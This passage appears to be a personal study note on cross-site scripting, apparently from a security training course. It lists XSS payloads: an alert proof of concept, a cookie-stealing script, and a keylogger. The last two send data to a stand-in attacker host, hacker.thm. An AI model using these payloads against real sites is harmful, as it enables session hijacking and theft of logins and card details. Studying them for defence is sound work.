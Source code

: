 ```yaml
---
sr-due: 2025-08-16
sr-interval: 11
sr-ease: 210
---
```


#review 

[[../2 - Tags/Web Hacking|Web Hacking]]

XXS is based on JavaScript, it is helpful to have a basic understanding of the language

Cross-Site Scripting, better known as XSS in the cybersecurity community, is ==classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. ==

# XSS Payloads

In XSS the payload is the JavaScript code we wish to execute on the targets computer

The intention is what you wish to JavaScript to actually do and the modification is the changes to the code we need to make it execute as every scenario is different. 

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

``` javascript
<script>alert('XSS');</script>
```

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

``` javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

``` javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

**Business Logic:**
